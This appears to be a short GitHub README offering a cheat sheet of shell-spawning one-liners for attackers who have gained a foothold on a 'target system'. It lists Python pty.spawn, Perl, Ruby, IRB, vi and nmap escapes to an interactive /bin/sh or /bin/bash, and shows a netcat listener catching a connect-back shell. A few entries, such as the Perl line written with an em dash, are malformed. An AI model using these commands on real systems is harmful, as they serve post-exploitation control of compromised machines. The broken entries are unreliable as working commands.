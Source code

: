 # TTY-Shell
Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.
# match the target system
## Shell Spawning
- `python -c 'import pty; pty.spawn("/bin/bash")'`
- `python -c 'import pty; pty.spawn("/bin/sh")'`
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `echo os.system('/bin/bash')`
- `/bin/sh -i`
- `perl —e 'exec "/bin/sh";'`
- `perl: exec "/bin/sh";`
- `ruby: exec "/bin/sh"`
## (From within IRB)
- `exec "/bin/sh"`
## (From within vi)
- `:!bash`
- `:set shell=/bin/bash:shell`
## (From within nmap)
- `!sh`
# Example
Listening using `nc -nvlp <PORT>` and we get back connect
<img src="https://github.com/chikyukrish/TTY-Shell/blob/main/ss1.png" widht="250"/>
and we can search for python in the system using `which python` or `which python3`
<img src="https://github.com/chikyukrish/TTY-Shell/blob/main/ss2.png" widht="250"/>
